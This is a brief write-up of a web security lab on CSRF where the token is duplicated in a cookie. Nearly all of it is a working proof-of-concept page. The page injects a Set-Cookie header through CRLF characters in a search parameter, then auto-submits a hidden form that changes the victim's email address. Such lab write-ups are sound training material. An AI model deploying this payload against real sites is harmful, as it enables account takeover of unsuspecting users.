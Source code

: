 # Lab: CSRF where token is duplicated in cookie

This is the same as lab 5, but we are actually setting the csrf token via the search SetCookie header and sending the request to change the email address using the token we set.

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://acfe1f0f1ee03000c068f52100dc0054.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="asdf&#64;asdf&#46;com" />
      <input type="hidden" name="csrf" value="supersecure" />
    </form>
    <img src="https://acfe1f0f1ee03000c068f52100dc0054.web-security-academy.net/?search=test%0d%0aSet-Cookie:%20csrf=supersecure" onerror="document.forms[0].submit()">
  </body>
</html>
```